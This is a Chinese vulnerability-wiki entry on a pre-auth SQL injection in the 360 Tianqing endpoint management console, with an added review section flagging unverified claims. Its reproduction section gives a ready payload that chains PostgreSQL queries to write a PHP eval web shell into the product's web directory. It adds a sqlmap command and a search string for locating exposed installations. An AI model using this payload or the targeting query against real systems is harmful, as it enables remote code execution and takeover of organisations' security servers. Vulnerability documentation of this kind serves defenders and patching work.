

# 360天擎 rptsvcsyncpoint 前台SQL注入

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：奇安信/360天擎
- 本文讨论：api/dp/rptsvcsyncpoint ccid SQL注入
- 版本、权限与配置前提：PostgreSQL、数据库高权限及Windows站点目录可写/PHP解析，未给版本
- 资料类型：PostgreSQL注入到文件写入；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- Windows路径却用root权限泛称，需区分DB超级用户与OS账户
- 建表已建T字段，说明又称新增字段但实际insert只是插行
- 写表/落盘不是普通检测，缺修复版本和响应证据

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 数据库权限、部署路径、版本与执行证据待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

```
天擎
```

## 网络测绘

```
title="360新天擎"
```

## 漏洞复现

```plain
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```


使用命令

```plain
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```





---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
